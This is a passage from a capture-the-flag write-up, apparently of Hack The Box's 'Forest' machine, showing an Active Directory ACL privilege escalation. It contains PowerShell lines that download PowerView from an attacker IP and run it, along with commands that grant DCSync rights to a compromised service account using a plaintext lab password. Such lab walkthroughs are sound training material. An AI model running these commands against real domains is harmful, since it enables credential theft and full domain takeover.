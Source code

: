 ![](/assets/images/htb/forest/bloodhound-hint.png)

### ACL Privesc

Access control list configuration allows for a lateral movement through AD object permissions.&#x20;


Bloodhound describes the attack as follows, assuming you have sourced PowerView.ps1 into the environment.

1. Source PowerView
   1. `IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8081/PowerView.ps1')`
2. Add a password
3. Add a PScredential Object
4. Escalate privalages by adding DCSync rights to your new user

```
# Provided Example
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync

# Actual Attack
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8081/PowerView.ps1')
$pass = convertto-securestring 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
```
